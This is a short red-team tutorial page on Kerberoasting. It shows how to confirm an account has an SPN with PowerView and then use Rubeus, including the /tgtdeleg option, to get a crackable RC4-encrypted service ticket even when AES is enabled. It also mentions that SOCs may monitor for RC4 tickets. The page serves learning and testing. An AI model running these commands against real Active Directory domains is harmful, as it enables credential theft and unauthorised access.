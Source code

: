 # Kerberoasting: Requesting RC4 Encrypted TGS when AES is Enabled

It is possible to kerberoast a user account with SPN even if the account supports Kerberos AES encryption by requesting an RC4 ecnrypted \(instead of AES\) TGS which easier to crack.

## Execution

First off, let's confirm we have at least one user with an SPN set:

{% code title="attacker@victim" %}
```text
Get-NetUser -SPN sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-37-30.png)

Since the user account does not support Kerberos AES ecnryption by default, when requesting a TGS ticket for kerberoasting with rubeus, we will get an RC4 encrypted ticket:

{% code title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-39-53.png)

If the user is now set to support AES encryption:

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-40-51.png)

By default, returned tickets will be encrypted with the highest possible encryption algorithm, which is AES:

{% code title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /user:sandy
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-05-06-15-58-37.png)

## Requesting RC4 Encrypted Ticket

As mentioned in the beginning, it's still possible to request an RC4 ecnrypted ticket \(if RC4 is not disabled in the environment, which does not seem to be common yet\):

{% code title="attacker@victim" %}
```text
F:\Rubeus\Rubeus.exe kerberoast /tgtdeleg
```
{% endcode %}

Even though AES encryption is supported by both parties, a TGS ticket encrypted with RC4 \(encryption type 0x17/23\) was returned. Note that SOCs may be monitoring for tickets encrypted with RC4:

![](../../.gitbook/assets/screenshot-from-2019-05-06-16-03-06.png)

## References

{% embed url="https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/" %}

